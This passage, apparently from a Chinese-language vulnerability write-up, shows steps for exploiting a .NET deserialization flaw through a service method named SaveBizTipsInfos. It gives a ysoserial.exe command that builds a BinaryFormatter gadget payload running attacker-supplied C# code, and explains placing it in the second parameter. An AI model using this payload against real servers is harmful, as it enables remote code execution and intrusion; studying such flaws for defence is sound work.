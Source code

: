 再找一个满足传参的类，如：

```asp
SaveBizTipsInfos(string bizHost, List<IBizTipsInfos> tips)
```

2、参数

1.  使用 ap 作为参数

由于第一个参数为 string 所以我们需要用第二个参数来传递 payload，这里我们用 ysoserial.exe 生成：

```php
ysoserial.exe -c "a.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
```

![image-20231207155405575](assets/1703831566-45a96b75a05e2054a4688452f8422157.jpg)

2.  使用 parameters 作为参数

parameters 根据上述`RequestExtractor#GetServiceParameters`方法可以得知，需要传递一个数组对象，同样由于第一个参数为 string 不能放 payload，所以将 paylaod 放置在数组的第二个位置即可：

![image-20231207172937604](assets/1703831566-1d728ffc7146fdbc2c162da6ddf6a566.jpg)
